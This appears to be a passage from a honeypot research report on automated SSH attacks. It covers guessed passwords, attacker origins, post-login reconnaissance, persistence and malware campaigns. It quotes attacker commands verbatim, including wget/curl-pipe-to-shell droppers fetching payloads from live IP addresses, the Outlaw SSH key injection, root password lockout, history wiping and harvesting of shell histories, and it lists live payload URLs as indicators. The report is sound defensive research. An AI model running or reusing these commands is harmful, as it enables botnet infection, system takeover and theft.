| 20 | `Aa123456` | 587 | classic |
| 21 | `fjbdfdjkdsfs541544@@` | 515 | **botnet signature** |
| 22 | `123123` | 488 | classic |
| 23 | `qwerty` | 474 | classic |
| 24 | `welltech12` | 469 | **vendor default** |
| 25 | `abc123` | 457 | classic |
| 26 | `Wangsu@2017` | 424 | **CDN vendor default** |
| 27 | `alpine` | 412 | distro default |
| 28 | `Admin123` | 412 | classic |
| 29 | `test123` | 409 | classic |

A few lessons.

**`P@ssw0rd` sits at number 12, with 911 attempts.** It is the archetypal password that satisfies an Active Directory complexity policy: uppercase, lowercase, digit, special character, eight characters. It has been in every wordlist for fifteen years. A complexity policy does not produce strong passwords; it produces *predictable* ones.

**The weird strings are signatures.** `fjbdfdjkdsfs541544AA@@` and its variant without the `AA` are not guesses: they are keyboard mashing hardcoded into a botnet family. As with `345gs5662d34`, their appearance in logs is an indicator of compromise in its own right.

**Vendor defaults die hard.** `welltech12`, `Wangsu@2017` (Wangsu Science & Technology, a major Chinese CDN), `orangepi`, `alpine`: these are factory passwords. Their presence in wordlists means somebody, somewhere, extracted a firmware image and published the credentials.

### What actually works

Across the 1,656 successful authentications, the breakdown of the passwords that got in:

| Password | Successes |
|---|---:|
| `123456` | 883 |
| `password` | 295 |
| `admin` | 114 |
| `root` | 80 |
| `alpine` | 70 |
| `ubuntu` | 55 |
| `toor` | 46 |
| `raspberry` | 44 |
| `debian` | 35 |
| `changeme` | 34 |

And the accounts they came in through: `root` (457), `admin` (49), `ubuntu` (46), `pi` (30), `debian` (23).

*(Methodological note: these figures reflect the password list the honeypot assigns. They do not measure the relative strength of passwords in the wild, but they do show which ones get tested first — `123456` leads because it leads every wordlist.)*

---

## Where they come from

Geolocation was performed locally using MaxMind's **GeoLite2-Country** database. No IP address was submitted to any third-party service.

> [!NOTE]
> IP geolocation tells you where the machine emitting the traffic sits, **not** where the operator sits. A large share of these addresses are rented servers or compromised machines. These figures describe infrastructure, not attribution.

### By attempt volume (529,765 geolocated attempts, 138 countries)


```mermaid
%%{init: {'theme':'base','themeVariables':{'pie1':'#4C72B0','pie2':'#DD8452','pie3':'#55A868','pie4':'#C44E52','pie5':'#8172B3','pie6':'#937860','pie7':'#C878AE','pie8':'#7F8C8D','pie9':'#B9A05C','pie10':'#64B5CD','pie11':'#A05195','pie12':'#4D7C6F','pieTitleTextSize':'18px','pieTitleTextColor':'#8b949e','pieSectionTextColor':'#ffffff','pieSectionTextSize':'13px','pieLegendTextColor':'#8b949e','pieLegendTextSize':'14px','pieStrokeColor':'#ffffff','pieStrokeWidth':'2px','pieOuterStrokeColor':'#8b949e','pieOuterStrokeWidth':'1px'}}}%%
pie showData
    title Origin of authentication attempts
    "China" : 130328
    "Germany" : 66502
    "Hong Kong" : 42818
    "Brazil" : 40496
    "Singapore" : 36486
    "Russia" : 31135
    "Indonesia" : 31085
    "United States" : 25980
    "France" : 18883
    "Bulgaria" : 15543
    "others" : 90509
```

| # | Country | Attempts | % |
|---:|---|---:|---:|
| 1 | 🇨🇳 China | 130,328 | 24.6% |
| 2 | 🇩🇪 Germany | 66,502 | 12.6% |
| 3 | 🇭🇰 Hong Kong | 42,818 | 8.1% |
| 4 | 🇧🇷 Brazil | 40,496 | 7.6% |
| 5 | 🇸🇬 Singapore | 36,486 | 6.9% |
| 6 | 🇷🇺 Russia | 31,135 | 5.9% |
| 7 | 🇮🇩 Indonesia | 31,085 | 5.9% |
| 8 | 🇺🇸 United States | 25,980 | 4.9% |
| 9 | 🇫🇷 France | 18,883 | 3.6% |
| 10 | 🇧🇬 Bulgaria | 15,543 | 2.9% |
| 11 | 🇳🇱 Netherlands | 12,702 | 2.4% |
| 12 | 🇰🇷 South Korea | 10,911 | 2.1% |
| 13 | 🇮🇳 India | 7,360 | 1.4% |
| 14 | 🇺🇦 Ukraine | 6,861 | 1.3% |
| 15 | 🇻🇳 Vietnam | 5,396 | 1.0% |

Germany in second place and Bulgaria in tenth obviously do not reflect local criminal activity: they are two strongholds of cheap European hosting. A brute-forcer who wants throughput rents a server at a discount provider, not a residential connection.

### By unique IP address count (6,676 IPs, 138 countries)

| # | Country | Unique IPs | % |
|---:|---|---:|---:|
| 1 | 🇨🇳 China | 1,219 | 18.3% |
| 2 | 🇺🇸 United States | 625 | 9.4% |
| 3 | 🇰🇷 South Korea | 494 | 7.4% |
| 4 | 🇮🇳 India | 410 | 6.1% |
| 5 | 🇮🇩 Indonesia | 301 | 4.5% |
| 6 | 🇧🇷 Brazil | 283 | 4.2% |
| 7 | 🇭🇰 Hong Kong | 240 | 3.6% |
| 8 | 🇷🇺 Russia | 213 | 3.2% |
| 9 | 🇫🇷 France | 201 | 3.0% |
| 10 | 🇻🇳 Vietnam | 200 | 3.0% |

Comparing this table with the previous one is instructive. **Germany drops from 2nd to 11th place**: few addresses, but enormous volume per address — servers dedicated to brute-forcing. Conversely, **South Korea and India show many IPs with few attempts each**: the signature of a fleet of compromised devices, not rented attack infrastructure.

### By connections that run commands (993 connections, 71 countries)

The ranking shifts once you look at who actually uses the access:

| # | Country | Connections | % |
|---:|---|---:|---:|
| 1 | 🇨🇳 China | 152 | 15.3% |
| 2 | 🇺🇸 United States | 134 | 13.5% |
| 3 | 🇩🇪 Germany | 64 | 6.4% |
| 4 | 🇮🇩 Indonesia | 63 | 6.3% |
| 5 | 🇭🇰 Hong Kong | 55 | 5.5% |
| 6 | 🇰🇷 South Korea | 40 | 4.0% |
| 7 | 🇳🇱 Netherlands | 38 | 3.8% |
| 8 | 🇫🇷 France | 32 | 3.2% |
| 9 | 🇻🇳 Vietnam | 31 | 3.1% |
| 10 | 🇮🇳 India | 31 | 3.1% |

**China stays first, but its weight drops: 24.6% of attempts, 15.3% of connections that run commands.** The sharper movements are elsewhere. The United States climbs from 4.9% of attempts to 13.5%, while Brazil (7.6% → 2.0%), Russia (5.9% → 0.3%), and Bulgaria (2.9% → 0) all but disappear. Some infrastructures only brute-force, others mostly use access: that is consistent with a two-tier market, but less clear-cut than the first version of this write-up claimed — it relied on session counts, which overweighted the most talkative bots.

---

## What they type once inside

**40% of successful logins (663) never run a single command.** The bot authenticates and disconnects: it is only validating the credential, to resell it or add it to a list. Exploitation comes later, and often from a different actor.

The other 60% run commands — about 13 each on average. Bots rarely open an interactive shell: they send each command in its own SSH channel (`exec`), and each channel is recorded as a session. That is why 1,656 successful logins produce 12,939 sessions.

### The reconnaissance block

One specific command sequence recurs in 687 connections — 69% of those that run commands — almost always in the same order. It is machine profiling, to decide what to deploy:

| Command | Occurrences | Purpose |
|---|---:|---|
| `cd ~; chattr -ia .ssh; lockr -ia .ssh` | 687 | strip immutability from `.ssh` before rewriting it |
| `whoami` | 670 | confirm we are root |
| `w` | 668 | is an admin logged in right now? |
| `uname -m` | 665 | architecture — which binary to fetch |
| `cat /proc/cpuinfo \| grep name \| wc -l` | 657 | core count |
| `cat /proc/cpuinfo \| grep name \| head -n 1 \| awk '{print $4,$5,$6,$7,$8,$9;}'` | 629 | CPU model |
| `free -m \| grep Mem \| awk '{print $2,$3,$4,$5,$6,$7}'` | 622 | available RAM |
| `ls -lh $(which ls)` | 616 | **honeypot detection** |
| `crontab -l` | 612 | persistence already in place? competitors? |
| `uname -a` | 610 | kernel version |
| `cat /proc/cpuinfo \| grep model \| grep name \| wc -l` | 599 | same, variant |
| `top` | 594 | what's eating CPU — spot a rival miner |
| `lscpu \| grep Model` | 582 | CPU model |
| `df -h \| head -n 2 \| awk 'FNR == 2 {print $2;}'` | 576 | disk space |

It all revolves around a single question: **how much CPU and RAM can I steal here?** This is cryptocurrency mining, or DDoS capacity rental. Target qualification is entirely automated.

> [!TIP]
> **`ls -lh $(which ls)` is honeypot detection.** The attacker checks the size of the `ls` binary. On a real system it is roughly 140 KB. On an emulated-shell honeypot, the command returns an inconsistent value or fails outright. My honeypot survives this because the shell is real: `ls` is a genuine binary in a genuine rootfs. This is exactly the kind of check that justifies the cost of the microVM architecture.

### More sophisticated reconnaissance

A noticeably more careful actor shows up 51 times with a well-written script:

```bash
command -v kill 2>&1 || echo command not found
uptime | grep -ohe 'up .*' | sed 's/,//g' | awk '{ print $2" "$3 }'
lscpu | egrep "Model name:" | cut -d ' ' -f 14-
if command -v lspci &>/dev/null; then
    lspci | egrep VGA | grep NVIDIA | awk '{print $5}' | wc -l
else
    nvidia-smi -q | grep "Product Name" | awk '{print $4,$5,$6,$7,$8,$9,$10,$11}' | wc -l
fi
curl -s --max-time 3 ipinfo.io/org
ip r | grep -Eo '[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}/[0-9]{1,2}'
cat /etc/passwd | grep -v nologin | grep -v false | grep -v sync | grep -v halt | grep -v shutdown | cut -d: -f1
```

Three things set it apart from the crowd:

1. **It hunts for NVIDIA GPUs**, with a fallback to `nvidia-smi` if `lspci` is missing. This is no longer opportunistic CPU mining — this is someone looking for GPU compute, which resells for far more.
2. **It queries `ipinfo.io/org`** to identify the victim's hosting provider. An AWS, OVH, or Hetzner server is not handled like a residential box.
3. **It enumerates the network neighborhood** (`ip r`) and the real human accounts (`/etc/passwd` with system accounts filtered out). That is lateral-movement preparation.

On my honeypot the network calls fail silently — which evidently did not tip off the operator.

### Persistence

**The SSH key.** 675 connections, from 332 distinct IPs, inject the exact same public key:

```bash
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr" >> .ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~
```

> [!CAUTION]
> **The `mdrfckr` key is one of the best-known indicators of compromise in the Linux world.** It is associated with the **Outlaw** botnet (also known as Dota / Shellbot) and has been circulating unchanged since 2018. If that string shows up in an `authorized_keys` anywhere in your estate, the machine is compromised, full stop. The leading `rm -rf .ssh` **deletes your legitimate keys** — which is also a denial of service against the administrator.

Note the `chattr -ia` beforehand: the operators know some administrators make `authorized_keys` immutable, and they plan for it. `lockr` is a variant found on certain firmwares.

**Changing the root password.** 635 connections, from 309 IPs, change the account password to a random 12-character string:

```bash
echo -e "123456\ngXuV60qK6VQx\ngXuV60qK6VQx" | passwd | bash
echo -e "password\n3Yp7fdZtHwLY\n3Yp7fdZtHwLY" | passwd | bash
echo -e "admin\neVgSCkxXyXXv\neVgSCkxXyXXv" | passwd | bash
```

The first field is the old password — the one they just guessed. This is **locking the victim out**: once the password is changed, neither the legitimate administrator nor competing botnets can come back. Every connection uses a different password, which suggests generation on the C2 side with the secret reported back.

Two more sophisticated attempts go through `usermod` with a proper SHA-512 hash, which works on systems where `passwd --stdin` does not exist:

```bash
bash -c "usermod -p \"$(openssl passwd -6 'KenoR3G3@44')\" root 2>&1"
```

### Eliminating the competition

The battlefield is crowded, and botnets actively evict one another:

```bash
rm -rf /tmp/secure.sh; rm -rf /tmp/auth.sh; pkill -9 secure.sh; pkill -9 auth.sh; echo > /etc/hosts.deny; pkill -9 sleep;
pkill kswpad
```

The `echo > /etc/hosts.deny` (12 connections) tears down protections put in place by… the previous botnet. A compromised machine is a contested resource.

### Covering tracks

26 connections from 9 IPs try to erase their passage:

```bash
unset HISTFILE; history -c; rm -f ~/.bash_history ~/.zsh_history ~/.mysql_history ~/.sqlite_history
set +o history
history | tail -5
```

That is very little — 2.6% of connections that run commands. The conclusion is clear: **almost no attacker makes any anti-forensic effort at all.** They bet on nobody ever looking at the logs. The operational corollary is encouraging: if you *do* look at your logs, you will see them.

One connection stands out for its discretion, with a `chmod` on a suggestively named PAM `.so` and an SSH service restart:

```bash
chmod 644 /usr/lib/x86_64-linux-gnu/security/pam_verify_auth.so 2>/dev/null
systemctl restart ssh 2>/dev/null || systemctl restart sshd 2>/dev/null
```

A malicious PAM module intercepts authentication upstream of everything else: that is persistence which survives a password change and a key rotation.

### Looking for data — or rather, for the next hop

The rootfs is seeded with lures: an `/opt/app/.env` holding a database password and fake AWS keys, admin notes in `/root/.notes`, and a `.bash_history` full of plausible commands (`cat .env`, `ssh deploy@prod-db-01.internal`, `scp backup.sql …`).

**29 connections, from 15 IPs, go after data.** Very few, but not zero:

| What | Connections | IPs | Period |
|---|---:|---:|---|
| Read the root password hash from `/etc/shadow` | 19 | 5 | June – August |
| Dump shell histories, `known_hosts`, `~/.ssh/config`, `/etc/hosts` | 9 | 9 | September 15–20 |
| Search the whole disk for `.env` files and print them | 1 | 1 | June 23 |
| Open one of the lures directly (`.env`, `.notes`, …) | 0 | 0 | — |

The history harvester, always with a `SSH-2.0-Go` client, is the most telling (abridged):

```bash
echo 'debian' | sudo -S -p '' su - -c 'bash -c '\''
{
  cat ~/.bash_history 2>/dev/null
  cat /root/.bash_history 2>/dev/null
  cat /home/*/.bash_history 2>/dev/null
  cat ~/.ssh/known_hosts 2>/dev/null
  cat ~/.ssh/config 2>/dev/null
  cat /etc/hosts 2>/dev/null
} | tail -n 20000
'\''' 2>/dev/null
```

It does not want documents: it wants to know **which other machines this one talks to**. Histories, `known_hosts`, and SSH config are a map of the next hops. And it got exactly that — my planted history, `ssh deploy@prod-db-01.internal` included. Nobody came back to follow the lead, though: the collection is automated, and the exploitation, if any, happens elsewhere.

Note that none of this needs a network: the stolen data leaves through the SSH session's output, like everything else the attacker sees. The absence of a network interface prevents downloading, not reading.

### Direct binary transfers

19 connections, from 18 IPs, push an **ELF directly through the terminal stream**, without `wget` or `curl`. You can see the `\x7fELF` header appear raw in the recording. The largest recording in the corpus is **47 MB** on its own.

It is a clever adaptation: on a hardened machine with no `wget`, no `curl`, and egress filtering, the SSH channel itself is still open. One connection uses the SCP protocol (`scp -t /usr/.work/`); the rest go straight through.

> [!WARNING]
> Blocking `wget` and `curl` is not enough to prevent payload delivery. The administration channel is also a transfer channel.

---

## Identified campaigns


```mermaid
gantt
    title Campaigns observed on the honeypot
    dateFormat YYYY-MM-DD
    axisFormat %d/%m

    section Outlaw / Dota
    mdrfckr key — 675 conn., 332 IPs        :active, 2026-05-21, 2026-09-21
    chattr/lockr recon — 687 conn.          :active, 2026-05-21, 2026-09-21

    section Victim lockout
    root password change — 635 conn.        :active, 2026-05-01, 2026-09-21

    section Droppers
    kswpad (BillGates) — 10 conn., 1 IP     :2026-05-13, 2026-09-16
    /linux dropper — 17 conn., 16 IPs       :2026-05-05, 2026-09-14
    Direct ELF upload — 19 conn.            :2026-05-05, 2026-09-14
    fakepika (Diicot) — 2 conn.             :2026-06-17, 2026-06-18

    section September wave
    zed + perl — 5 conn.                    :crit, 2026-09-15, 2026-09-20
    bo.sh — 5 conn.                         :crit, 2026-09-16, 2026-09-19
```

**Outlaw is permanent.** From 21 May to 21 September without interruption, 332 distinct IPs, always the same key and the same recon block. It is the constant background of the internet.

**`kswpad`: 10 connections, a single IP.** One persistent operator who kept coming back for four months. Because the honeypot preserves their qcow2 overlay, they found "their" machine again on every visit. URLhaus identifies two of the family's binaries as **BillGates** (a.k.a. Elknot), a long-running Linux DDoS bot: this operator was after bandwidth, not CPU.

**The September wave.** The `zed`+`perl` and `bo.sh` campaigns only appear at the very end of the window (15–20 September), each from 5 distinct IPs. The style is Outlaw — the `zed` payload is a Perl IRC bot script — but with new infrastructure and a cleaner delivery method.

---

## Payloads and their URLs

> [!CAUTION]
> **The URLs below are live indicators of compromise.** They are published to enable detection and blocking. **Do not visit them, do not download them, do not execute them.** None of these files were downloaded or executed during this study: the microVM has no network access, which makes execution physically impossible.

24 distinct hosts were contacted. Here is the full inventory, with geolocation of the distribution servers. What these payloads actually do is covered in the next chapter, [Following the payloads](#following-the-payloads).

### The "kswpad" family — multi-architecture

The most structured dropper, with one binary per architecture and persistence in `/etc`:

```bash
cd /tmp;rm -f amd64;wget -t 1 http://195.177.94.72:3594/b/amd64
cd /tmp;rm -f kal64;wget -t 1 http://195.177.94.72:3594/b/kal64
cd /etc;rm -f kswpad;wget -t 1 http://195.177.94.72:3594/b/kswpad
chmod 777 /tmp/amd64
chmod 777 /tmp/kal64
chmod 777 /etc/kswpad
pkill kswpad
```

| Host | Country | Ports | Paths |
|---|---|---|---|
| `195.177.94.72` | 🇫🇷 France | 3594, 26346 | `/b/amd64`, `/b/kal64`, `/b/kswpad`, `/b/linux` |
| `194.59.31.57` | 🇫🇷 France | 35415, 62123 | `/b/amd64`, `/b/kal64`, `/b/kswpad`, `/b/linux` |
| `194.59.31.5` | 🇫🇷 France | 314 | `/b/amd64`, `/b/kal64`, `/b/kswpad` |
| `151.241.154.172` | 🇺🇸 United States | 32014 | `/b/amd64`, `/b/kal64`, `/b/kswpad`, `/b/linux` |

Dropping into `/etc` rather than `/tmp` is deliberate: `/tmp` is often mounted `noexec` and wiped on reboot, `/etc` never is. The port rotation (3594 → 26346, 35415 → 62123) is basic block evasion.

URLhaus identifies `kal64` and `kswpad` as **BillGates / Elknot**, a Linux DDoS bot, and VirusTotal agrees (Setag and Ganiw are other names for the same family). VirusTotal also names the other two binaries: `amd64` is **Kaiji**, another DDoS bot, written in Go, and `/b/linux` is an **SSH scanner** — the tool that finds the next victims. The infrastructure is not dedicated to it either: ThreatFox lists `151.241.154.172` as a **Remcos** command-and-control server (a Windows RAT), and `195.177.94.72` has also served Windows payloads, tagged `exe`, `msi` and `connectwise`.

### The "/linux" family — one binary, many hosts

The same URL pattern across 15 different hosts, mostly Alibaba Cloud addresses:

| Host | Country | URL |
|---|---|---|
| `120.77.237.174` | 🇨🇳 China | `http://120.77.237.174:7494/linux` |
| `47.104.162.41` | 🇨🇳 China | `http://47.104.162.41:7100/linux` |
| `47.86.176.209` | 🇭🇰 Hong Kong | `http://47.86.176.209:60133/linux` |
| `81.71.147.73` | 🇨🇳 China | `http://81.71.147.73:8064/linux` |
| `220.180.99.71` | 🇨🇳 China | `http://220.180.99.71:60105/linux` |
| `60.205.248.70` | 🇨🇳 China | `http://60.205.248.70:6352/linux` |
| `112.124.33.87` | 🇨🇳 China | `http://112.124.33.87:60147/linux` |
| `42.193.141.153` | 🇨🇳 China | `http://42.193.141.153:9210/linux` |
| `158.101.242.199` | 🇸🇦 Saudi Arabia | `http://158.101.242.199:60105/linux` |
| `47.108.211.13` | 🇨🇳 China | `http://47.108.211.13:9655/linux` |
| `114.55.63.70` | 🇨🇳 China | `http://114.55.63.70:8989/linux` |
| `47.95.111.18` | 🇨🇳 China | `http://47.95.111.18:8419/linux` |
| `123.57.51.183` | 🇨🇳 China | `http://123.57.51.183:6707/linux` |
| `120.26.141.203` | 🇨🇳 China | `http://120.26.141.203:8808/linux` |
| `59.110.9.189` | 🇨🇳 China | `http://59.110.9.189:9684/linux` |

Each host uses a different high port. The infrastructure is disposable: each IP serves only a handful of connections before being replaced.

URLhaus confirms the "one binary" part: the same file (SHA-256 `a505de0a…`) was collected from 7 of these hosts. Two of the family's hosts are tagged **P2Pinfect**, a Rust worm that spreads over Redis and SSH and ships a miner — a likely, but indirect, identification. VirusTotal does not settle it: 34 of 62 engines flag the shared binary, but only with generic labels (packed trojan, rootkit); the P2Pinfect name appears only on older samples from `47.86.176.209`.

### The "zed" family — Perl IRC bot

```bash
nohup sh -c '(timeout 60 curl -sS --max-time 55 http://66.116.243.130/bo.sh 2>/dev/null | bash) >/dev/null 2>&1 </dev/null' >/dev/null 2>&1 &
curl -sS --max-time 5 http://66.116.243.130/zed 2>/dev/null | perl &
timeout 60 curl -sS http://154.70.152.216/zed | perl >/dev/null 2>&1 &
```

| Host | Country | URLs |
|---|---|---|
| `66.116.243.130` | 🇮🇳 India | `/bo.sh`, `/zed` |
| `154.70.152.216` | 🇿🇦 South Africa | `/zed` |

The `curl | perl` pipe is notable: **nothing is written to disk**. The script runs straight from memory, which makes it invisible to file-scanning antivirus. The `nohup … </dev/null &` with triple redirection guarantees survival after the SSH session closes.

URLhaus has collected **15 different Perl scripts** from `154.70.152.216/zed`: the content changes from one download to the next, while the URL stays the same. VirusTotal classifies every one it knows — 8 of the 15, plus the `66.116.243.130` script — as **Shellbot**, the Perl IRC bot associated with Outlaw.

### Others

| Host | Country | URL | Note |
|---|---|---|---|
| `45.153.34.212` | 🇳🇱 Netherlands | `45.153.34.212/fakepika`, `:8181/.bia`, `:8181/.dcplm` | attributed by ThreatFox to **Diicot**, a Romanian-speaking group: Mirai dropper and XMRig mining proxy. `.bia` and `.dcplm` are shell scripts that VirusTotal classifies as downloaders installing a miner. Dotfiles to hide from a plain `ls` |
| `64.89.161.144` | 🇺🇸 United States | `:28816/CZRmrtxnrNONBXhwfFeqjNfBrliNaShG` | **XMRig** miner according to URLhaus; randomized path — URL signature evasion |
| `31.56.209.39` | 🇳🇱 Netherlands | `/wget.sh`, `/curl.sh` | **Mirai** according to URLhaus; dual dropper depending on available tooling |

The full `fakepika` chain is a textbook "download, run, delete" pattern:

```bash
wget 45.153.34.212/fakepika || curl -O 45.153.34.212/fakepika ; chmod +x fakepika ; ./fakepika ; rm -rf fakepika ; clear ; history -c ; rm -rf ~/.ash_history
```

The `wget || curl` covers both cases, and `rm -rf ~/.ash_history` targets BusyBox — so, IoT targets.

And the `31.56.209.39` dropper, which clears out the competition before installing itself:

```bash
echo "history -cw; cd /tmp; rm -rf *.sh; rm -rf bizy*; rm -rf odin*; wget http://31.56.209.39/wget.sh; sh wget.sh; curl http://31.56.209.39/curl.sh -o curl.sh; sh curl.sh | sh" | sh
```

`bizy*` and `odin*` are rival families.

### Geographic summary of the distribution infrastructure


```mermaid
%%{init: {'theme':'base','themeVariables':{'pie1':'#4C72B0','pie2':'#DD8452','pie3':'#55A868','pie4':'#C44E52','pie5':'#8172B3','pie6':'#937860','pie7':'#C878AE','pie8':'#7F8C8D','pie9':'#B9A05C','pie10':'#64B5CD','pie11':'#A05195','pie12':'#4D7C6F','pieTitleTextSize':'18px','pieTitleTextColor':'#8b949e','pieSectionTextColor':'#ffffff','pieSectionTextSize':'13px','pieLegendTextColor':'#8b949e','pieLegendTextSize':'14px','pieStrokeColor':'#ffffff','pieStrokeWidth':'2px','pieOuterStrokeColor':'#8b949e','pieOuterStrokeWidth':'1px'}}}%%
pie showData
    title Payload hosts by country (24 hosts)
    "China" : 13
    "France" : 3
    "Netherlands" : 2
    "United States" : 2
    "India" : 1
    "Hong Kong" : 1
    "Saudi Arabia" : 1
    "South Africa" : 1
```

Three French hosts distribute the `kswpad` family. A useful reminder: malicious infrastructure is hosted everywhere, including at reputable European providers. Geo-blocking is a very weak security control.

---

## Following the payloads

The URLs above show what attackers try to install. This chapter looks at what those payloads are, and what they do once they run.

**Method.** Nothing was run on my side:

- every URL and host was looked up in the [abuse.ch](https://abuse.ch/) databases (URLhaus, ThreatFox, MalwareBazaar), and every payload hash collected by URLhaus on [VirusTotal](https://www.virustotal.com/) — 35 hashes, 28 known;
- "what it does" comes from the **behaviour reports of VirusTotal's sandboxes**, which run the samples on their own infrastructure. Sandbox housekeeping (log rotation, package managers) is filtered out;
- on 4 October, the payloads still online — the shared `/linux` binary and one `zed` script — were downloaded into a read-only quarantine and hashed, never executed. The Perl script was read as text.

Coverage: 23 of the 46 URLs and 14 of the 24 hosts were already known to URLhaus. The other 10 hosts are mostly from the `/linux` family, plus `66.116.243.130` and `45.153.34.212` (the latter known to ThreatFox). On 4 October, I submitted to URLhaus the four URLs on those hosts that were still serving files.

> [!NOTE]
> These are third-party labels and third-party sandbox runs, not my own reverse engineering. Antivirus labels in particular are often generic.

### kswpad: a DDoS kit, plus the scanner that finds the next victims

The four binaries of the family do different jobs:

- **`kal64` and `kswpad` are BillGates** (also known as Elknot, Setag, Ganiw), a long-running DDoS bot. In the sandbox, it installs itself as fake init services (`DbSecuritySpt`, `selinux`) started at boot, **replaces `ps`, `netstat` and `lsof` with trojanized copies** (the originals are moved to `/usr/bin/dpkgd/`) so that it does not show up in them, and loads a kernel module, `xpacket.ko`. Its lock files are literally named `bill.lock` and `gates.lod`. It contacts `else.u27v.me` and `web.yk4s.com`.
- **`amd64` is Kaiji**, a DDoS bot written in Go. It disguises itself as a system service, `quotaon.service`, edits `/etc/crontab` and rewrites dozens of scripts in `/etc/init.d/`. It contacts `web.2k5u.ru` and `198.251.81.61:2070`.
- **`/b/linux` is an SSH scanner**, packed with UPX, which contacts `big.auc5.com`, and `45.129.230.254` and `85.209.176.174` on port 60137.

Two DDoS bots and a scanner: the compromised machine is turned into attack capacity, and used to find the next victims. That fits the single operator who came back to their VM for four months. References: [Trend Micro on BillGates/Setag](https://www.trendmicro.com/en_us/research/19/g/multistage-attack-delivers-billgates-setag-backdoor-can-turn-elasticsearch-databases-into-ddos-botnet-zombies.html), [Intezer on Kaiji](https://intezer.com/blog/kaiji-new-chinese-linux-malware-turning-to-golang/).

### /linux: one binary, role not established

The binary shared by the family (`a505de0a…`, collected from 7 of its 15 hosts) is flagged by 34 of 62 engines, but only with generic labels (packed trojan, rootkit). The sandboxes record hidden files and encrypted or packed segments, and **no network activity**: whatever it is meant to do did not happen in their runs. URLhaus tags two of the family's hosts as P2Pinfect, and VirusTotal uses that name only for older samples from `47.86.176.209`. P2Pinfect remains a plausible hypothesis ([Unit 42 analysis](https://unit42.paloaltonetworks.com/peer-to-peer-worm-p2pinfect/)), not an established fact.

### zed: Shellbot, the Outlaw IRC bot

The `66.116.243.130/zed` script, read as text, is a complete Shellbot — the Perl IRC bot of the Outlaw family:

- it connects to the IRC server **`103.114.163.234` on port 22**, so that its traffic looks like SSH, joins the `#idc` channel, and only obeys two nicknames, `SEC` and `ZEC`;
- it disguises itself as `/usr/sbin/httpd -FOREGROUND` in the process list;
- its commands: arbitrary shell commands, a reverse shell, file download, port scanning, **UDP flooding (DDoS)**, deleting `/mnt`, and running Perl code. Its variable names are in Portuguese.

The VirusTotal sandbox confirms the IRC connection to `103.114.163.234:22`. That server is known to none of the abuse.ch databases and flagged by no VirusTotal engine as of 4 October. The 15 different scripts collected from `154.70.152.216/zed`, where VirusTotal knows them (8 of 15), are all Shellbot too. Since the delivery is `curl | perl`, none of it ever touches the disk. References: [Elastic Security Labs on Outlaw](https://www.elastic.co/security-labs/outlaw-linux-malware), [Kaspersky on Outlaw](https://securelist.com/outlaw-botnet/116444/).

### Diicot: an installer that sets up a miner and locks the door

`.bia` and `.dcplm` are shell scripts. In the sandbox, `.dcplm`:

- checks the machine's public IP address (`ifconfig.co`);
- downloads `fakepika`, `.system3d` — which ThreatFox lists as XMRig — and `.dc.json`, **renamed `config.json`, the default name of XMRig's configuration file**;
- installs persistence (a `myservice.service` systemd unit and a crontab), writes a fake `/usr/bin/sshd`, and hides its files in `/var/tmp/.ladyg0g0/`;
- **deletes root's `authorized_keys` and adds its own SSH key**: the machine is locked for everyone else;
- kills other processes (`pkill`), and prints its progress in Romanian: *"Minerul Luat"* (miner fetched), *"Minerul Pornit"* (miner started).

The miner then most likely connects to `91.108.243.251:3337`: the port is typical of a mining proxy, and the address is flagged malicious by 10 VirusTotal engines, though none states its role. A Discord webhook in the script's memory matches the group's known habit of using Discord for control. `.bia` starts the same way — same hidden directory, same messages, same Discord webhook — but its sandbox run stops before the miner download. Reference: [Darktrace (formerly Cado Security) on Diicot](https://www.darktrace.com/blog/tracking-diicot-an-emerging-romanian-threat-actor).

### The randomized-path miner (64.89.161.144)

This one is a plain miner: the sandbox finds **XMRig 6.25.0** and the `stratum` mining protocol. It checks the public IP, lists PCI devices (`lspci`, typically to look for graphics cards), installs fake `chronyd` and `nftables` services and a binary named `journald`, and **enables huge pages**, a classic XMRig optimisation. It talks to its own host on random ports and random paths.

### Reference table

| Payload | Family (VirusTotal) | Detections | VirusTotal | MalwareBazaar | URLhaus |
|---|---|---:|---|---|---|
| kswpad `amd64` | Kaiji | 43/64 | [report](https://www.virustotal.com/gui/file/1e3eb765015fd335cfdcb0ddd020565690b5a2f15a2a62406d750bcb21b6d77b) | [sample](https://bazaar.abuse.ch/sample/1e3eb765015fd335cfdcb0ddd020565690b5a2f15a2a62406d750bcb21b6d77b/) | [1](https://urlhaus.abuse.ch/url/3893671/), [2](https://urlhaus.abuse.ch/url/3912671/) |
| kswpad `kal64` | BillGates (Setag) | 39/63 | [report](https://www.virustotal.com/gui/file/b02337d82c44ed46e5b186bd54cde717be39da81a29fb332090d10a5c444ccb6) | [sample](https://bazaar.abuse.ch/sample/b02337d82c44ed46e5b186bd54cde717be39da81a29fb332090d10a5c444ccb6/) | [1](https://urlhaus.abuse.ch/url/3893471/), [2](https://urlhaus.abuse.ch/url/3912672/) |
| kswpad `kswpad` | BillGates (Setag) | 48/64 | [report](https://www.virustotal.com/gui/file/6fddaa099096c0caee183e4bb95e9fe79003e6ae6dc41d6b1aa3b4aec221bd38) | [sample](https://bazaar.abuse.ch/sample/6fddaa099096c0caee183e4bb95e9fe79003e6ae6dc41d6b1aa3b4aec221bd38/) | [1](https://urlhaus.abuse.ch/url/3893722/), [2](https://urlhaus.abuse.ch/url/3912670/) |
| kswpad `/b/linux` | SSH scanner | 37/64 | [report](https://www.virustotal.com/gui/file/25c34c028f0c119da251ca5d17020df79a030c7c3b86c5a8df699065016a21a2) | [sample](https://bazaar.abuse.ch/sample/25c34c028f0c119da251ca5d17020df79a030c7c3b86c5a8df699065016a21a2/) | [1](https://urlhaus.abuse.ch/url/3893519/) |
